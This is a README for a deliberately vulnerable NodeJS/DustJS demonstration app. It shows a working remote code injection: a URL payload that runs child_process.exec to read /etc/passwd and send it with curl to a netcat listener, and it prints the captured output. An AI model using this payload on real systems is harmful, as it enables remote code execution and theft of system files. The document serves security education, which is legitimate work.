 # Vulnerable Favorites Service

This service is a dummy favorites service written in NodeJS and using the DustJS framework.

There is a deliberate vulnerability in this application which allows remote code injection due to an eval bug in DustJS.

**NOTE:** This vulnerability dates back to 2014 and has since been patched, this is only for information purposes to highlight how code injection can be used to bypass perimeter firewalls.

# WARNING
This service is for demonstration purposes only and should not be deployed to a production environment!

# Running the service - simple example

First start the service:

```bash
$ yarn start
yarn run v1.13.0
warning package.json: No license field
$ node ./app.js
Example app listening on port 3000!
```

Then run netcat to accept data from the vulnerability on port 5000

```bash
$ nc -lv -p 5000
listening on [any] 5000 ...
```

Send a malformed request to the service which lists /etc/passwd and forwards this to localhost:5000 where your netcat server is running

```
http://localhost:3000/?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+-F+%22x=`cat+/etc/passwd`%22+localhost:5000%27)-%27
```

You should see the following response in the netcat output

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 35218
POST / HTTP/1.1
Host: localhost:5000
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 1734
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------9a601d056e16f015

--------------------------9a601d056e16f015
Content-Disposition: form-data; name="x"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
systemd-timesync:x:101:104:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:102:105:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:103:106:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:104:107:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:105:108::/var/run/dbus:/bin/false
rtkit:x:106:109:RealtimeKit,,,:/proc:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
pulse:x:108:110:PulseAudio daemon,,,:/var/run/pulse:/bin/false
android-root:x:655360:655360::/dev/null:/bin/false
jacksonnic:x:1000:1000::/home/jacksonnic:/usr/bin/zsh
Debian-exim:x:109:112::/var/spool/exim4:/bin/false
--------------------------9a601d056e16f015--
```


# References
[http://artsploit.blogspot.com/2016/08/pprce2.html](http://artsploit.blogspot.com/2016/08/pprce2.html)
